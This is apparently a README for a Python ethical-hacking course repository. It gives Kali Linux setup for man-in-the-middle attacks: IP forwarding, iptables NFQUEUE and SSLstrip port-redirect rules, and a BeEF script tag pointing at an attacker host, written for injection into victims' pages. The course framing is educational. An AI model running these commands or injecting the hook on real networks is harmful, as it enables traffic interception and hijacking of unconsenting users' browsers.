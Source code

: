 # EthicalHackingCourse
Repository for all the code related to Learn Python &amp; "Ethical Hacking From Scratch" course.
All the work is done on Kali Linux, using both Python 2.7 and 3.x version.

## Requirements
Besides the needed libraries stated in *requirements.txt* file,
BeEF framework for Kali Linux is Required.

`sudo apt-get install beef-xss`

If SSLstrip is not provided with your distribution of Kali Linux virtual machine, install it from the original source: [moxie0/sslstrip](https://github.com/moxie0/sslstrip "A tool for exploiting Moxie Marlinspike's SSL \"stripping\" attack.").

## Guidelines

### Kali Linux
To enable **IP forwarding**, enter the following command into the terminal:

`echo 1 > /proc/sys/net/ipv4/ip_forward`

To create **net filter queue** (*iptables*), enter the following command:

`iptables -I FORWARD -j NFQUEUE --queue-num <number>`,

where the default `<number>` is `0`.

For local testing, use both `OUTPUT` and `INPUT` chain.

To enable a basic HTTP server, type:

`sudo service apache2 start`

### Python
It seems that *netfilterqueue* does not work on Python 3.x.

### BeEF
The code we want to inject into our victim is:

`<script src="http://<IP>:3000/hook.js"></script`,

where `<IP>` is the IP of your host server containing *hook.js*.

If you are using a HTTP server, make sure insert the code snippet above
into */var/www/html/index.html*.

### SSLstrip
To use SSLstrip, use the following command to enable it in *iptables*:

`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000`

This makes so that all traffic coming to port 80, which is the default port of HTTP websites,
will instead be redirected to port 10 000, which is the port the SSLstrip tool uses.
